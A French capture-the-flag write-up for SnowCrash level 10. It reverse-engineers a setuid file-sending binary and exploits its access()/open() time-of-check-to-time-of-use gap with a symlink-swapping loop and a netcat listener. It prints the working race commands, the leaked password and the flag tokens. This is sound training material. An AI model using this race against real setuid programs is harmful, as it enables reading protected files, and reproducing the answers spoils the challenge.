 # LEVEL 10

### Reconnaissance

En se connectant au level10, on a un binaire et un fichier token ou on a pas les droits de lecture dessus:

```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
```

En lancant le binaire, on voit qu'il attend un fichier et un client a qui se connecter:

```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

On peux téléchargé le binaire pour le reverse, sa nous permettra dans savoir plus dans son fonctionnement.

On voit 2 choses interessantes:

- Le port utilisé pour la connection (6969)
```
0x08048756      b87b8a0408     mov eax, str.Connecting_to__s:6969_.. ; .//level10.c:31 ; 0x8048a7b ; "Connecting to %s:6969 .. "
```
- L'utilisation de la fonction access
```
0x08048749      e892feffff     call sym.imp.access         ; int access(const char *path, int mode)
```

Essayons de faire fonctionné ce binaire

```
level10@SnowCrash:~$ echo 'testing' > /tmp/test1
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
level10@SnowCrash:~$ nc -l 6969 > /dev/pts/0 &
[1] 7697
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. testing
wrote file!
[1]+  Done                    nc -l 6969 > /dev/pts/0
```
Sa marche, maintenant intéressons nous a comment l'exploité ?

La fonction qui nous interesse (access) nous permet de faire une attaque de type : <a href="https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use">Time-of-check to time-of-use (**TOCTOU**)</a>

On a d'ailleur un super tutoriel <a href="https://samsclass.info/127/proj/E10.htm">ici</a>

Cette attaque joue sur le temps entre le moment ou le programme check l'acces (avec la fonction access) et le moment ou il ouvre le fichier:


Ok, maintenant qu'on a compris comment sa fonctionne on passe a la pratique !

### Exploitation


On ouvre 2 connections ssh:
- la première pour nos commande
- la deuxième pour recevoir les infos avec nc.
	
- **1er terminal**
```
	$ echo "public" > /tmp/public		# creation fichier ou on a des droits (normal, on le creer)
	$ ln -sf /tmp/public /tmp/flip		# creation d'un lien symbolique
	Si on lance notre binaire avec /tmp/public ou /tmp/flip, on aura exactement la meme chose.
	
	while true; do ln -sf $(pwd)/token /tmp/flip; ln -sf /tmp/public /tmp/flip; done &
	$ for i in {1..300}; do ./level10 /tmp/flip 127.0.0.1; done
```

- **2eme terminal**
```
	$ for i in {1..300}; do nc -l 6969; done
	[...]
	public
	.*( )*.
	.*( )*.
	public
	.*( )*.
	woupa2yuojeeaaed06riuj63c
	.*( )*.
	public
	.*( )*.
	public
	[...]
```

Et voila, le mot de passe pour l'user flag10 est: **woupa2yuojeeaaed06riuj63c**

*ps : le mot de passe fonctionne pour l'user flag11*
	
```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
level10@SnowCrash:~$ su flag11
Password: 
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
